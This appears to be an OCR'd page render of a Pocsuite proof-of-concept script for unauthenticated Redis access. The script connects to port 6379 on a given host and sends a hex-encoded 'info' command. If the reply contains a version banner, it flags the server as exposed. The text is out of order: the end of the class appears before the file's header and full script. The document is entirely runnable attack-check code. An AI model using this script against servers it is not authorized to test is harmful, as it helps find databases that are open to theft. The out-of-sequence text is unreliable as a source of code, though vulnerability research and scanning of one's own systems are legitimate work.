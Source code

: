        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output

register(TestPOC)
#!/usr/bin/env python
# -*- coding:utf-8 -*-
 
import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register
 
 
class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']
 
    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()
        return self.parse_attack(result)
 